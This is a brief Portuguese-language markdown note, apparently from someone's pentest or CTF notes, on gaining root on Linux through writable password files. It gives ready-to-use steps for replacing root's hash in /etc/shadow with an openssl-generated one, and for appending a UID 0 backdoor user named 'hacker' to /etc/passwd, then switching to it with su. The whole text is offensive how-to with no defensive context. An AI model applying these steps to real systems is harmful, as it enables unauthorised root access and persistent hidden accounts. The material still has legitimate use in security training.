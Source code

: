 # Senhas
No arquivo ``/etc/passwd`` ou ``/etc/shadow`` ficam armazenadas as senhas no linux.

## passo a passo
### shadow
1. Gere um novo hash de senha: ``openssl passwd -6 "nova_senha"``
2. Edite o ``/etc/shadow`` e substitua a linha do usuário alvo ``root:$6$randomsalt$hFj...mYQd/:19472:0:99999:7:::``
3. Acesse ``su root``

### passwd
1. Adicione uma linha ao final do arquivo `/etc/passwd`: ``hacker:x:0:0:Hacker:/root:/bin/bash``
Explicação dos campos:
- `hacker` → Nome do usuário
- `x` → Indica que a senha está em `/etc/shadow`
- `0:0` → UID e GID do root (dá privilégios totais)
- ``:Hacker:``: informações do usuário, um campo de comentário usado pelo comando finger
- `/root` → Diretório home
- `/bin/bash` → Shell do usuário

3. ``su hacker``


